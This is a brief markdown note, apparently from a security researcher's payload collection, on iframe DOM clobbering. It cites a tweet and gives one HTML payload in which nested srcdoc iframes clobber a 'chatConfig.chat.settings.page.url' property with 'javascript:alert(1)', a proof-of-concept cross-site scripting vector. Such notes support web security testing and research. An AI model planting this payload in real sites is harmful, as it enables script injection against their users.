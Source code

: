 # iframe DOM-clobbering: 
https://twitter.com/fransrosen/status/1361427940165189639
```
<iframe name="chatConfig" id="chatConfig" srcdoc="<iframe name=chat id=chat srcdoc='<iframe name=settings id=settings srcdoc=&quot;<form id=page name=page><input name=url value=javascript:alert(1)>&quot;></iframe>'></iframe>">
```

